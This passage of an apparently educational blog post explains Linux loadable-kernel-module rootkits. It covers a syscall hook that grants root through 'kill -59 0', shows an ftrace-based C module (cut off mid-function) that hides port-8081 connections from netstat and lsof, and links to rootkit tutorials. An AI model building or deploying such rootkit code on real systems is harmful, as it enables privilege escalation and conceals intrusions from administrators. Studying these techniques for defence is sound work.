 Above, you can see that I used insmod (insert module) to load hook.ko (the .ko extension comes from kernel object, so we are inserting a kernel object).

After being inserted, I checked that the LKM was loaded using lsmod (list modules) and it was loaded successfully.

We can see that when using "kill -59 0", it changes your current id to 0, i.e. root, and then you have root privileges.

So, this is one of the many ways to take advantage of the power of the kernel, hooking syscalls, changing the system's default behavior to what you want.

Below are some blog links that provide really cool learning about LKM Rootkits

- [https://xcellerator.github.io/tags/rootkit/](https://xcellerator.github.io/tags/rootkit/)
- [https://blog.convisoappsec.com/linux-rootkits-hooking-syscalls/](https://blog.convisoappsec.com/linux-rootkits-hooking-syscalls/)
- http://www.ouah.org/LKM_HACKING.html


# 2. Modern hooking techniques


Over time, old methods such as hijacking the syscall table and hooking a syscall from it, VFS hooking, etc., stopped being used, even for compatibility reasons, by more "current/modern" methods, such as for example using ftrace, kprobe, and even the eBPF (Extended Berkeley Packet Filter) extension of the original BPF (Berkeley Packet Filter), it is used to attach programs to various points in the kernel, including syscalls, offering a powerful way to customize and control system behavior.

## 2.1 FTrace

Ftrace is an internal tracer designed to help developers and system designers find what is going on inside the kernel. The ftrace infrastructure was originally created to attach callbacks to the beginning of functions to record and track kernel flow. But these callbacks can also be used for hooking/live patching or monitoring function calls.

Below is a code in C using the xcellerator lib ftrace_helper.h.

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <linux/tcp.h>
#include "ftrace_helper.h"

#define PORT 8081               // Defines the port to be hidden (8081)

MODULE_LICENSE("GPL");
MODULE_AUTHOR("mtzsec");
MODULE_DESCRIPTION("Hiding connections from netstat and lsof");
MODULE_VERSION("1.0");

static asmlinkage long (*orig_tcp4_seq_show)(struct seq_file *seq, void *v);
static asmlinkage long (*orig_tcp6_seq_show)(struct seq_file *seq, void *v);

static asmlinkage long hooked_tcp4_seq_show(struct seq_file *seq, void *v)
{
    long ret;
    struct sock *sk = v;

    if (sk != (struct sock *)0x1 && sk->sk_num == PORT)
    {
        printk(KERN_DEBUG "Port hidden!\n");
        return 0;
    }

```
